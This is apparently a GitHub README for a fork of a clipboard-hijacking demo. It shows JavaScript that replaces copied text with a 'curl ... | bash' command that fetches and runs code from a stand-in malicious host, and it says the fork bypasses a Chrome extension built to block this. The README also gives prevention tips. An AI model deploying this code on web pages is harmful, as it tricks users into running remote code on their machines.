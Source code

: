 # This fork bypasses [this **Chrome Extension**](https://chrome.google.com/webstore/detail/copy-paste-hack-blocker/fkfnmcncicigjajpfdgpkjohbondnkld).
# copy-paste-hack-js
During their job, developers often copy and paste code from the Internet from sources like Stackowerflow and other websites.  
I have found an **exploit**, with just some lines of JavaScript code, that can alter the copy-paste feature of any browser and make you paste (and execute) a different kind of code.

A running **demo** based on the content of this repository can be found here:  
[**TRY IT NOW**](https://meblum.github.io/copy-paste-hack-js/)

## How it works behind the scenes
Using plain JavaScript we detect every time there is a "copy" event on the text the user needs to copy.
When it happens, we set the clipboard content of the user with a different code, as we wish.
We also add a "/n" to simulate the Enter key and execute the code right away.

```javascript
document.getElementById('copyme').addEventListener(
    'copy', function(e){
        e.clipboardData.setData('text/plain',
        'curl https://your.bad.code.sh | bash\n');
        e.preventDefault();
    }
)
```
## How to prevent it from happening
- Always copy code from trusted sources and websites
- Always check the code and if you can't understand it, don't run it
- Some modern terminals like Windows Terminal display a warning message whenever you are trying to paste a multiline code (like the one in this exploit) and it will show up the code on the screen before getting executed. Just make sure to not ignore those helpful warnings. 
### Firefox
- See this answer about disabling the feature in Firefox: https://superuser.com/questions/1595994/dont-let-websites-overwrite-clipboard-in-firefox-without-explicitly-giving-perm
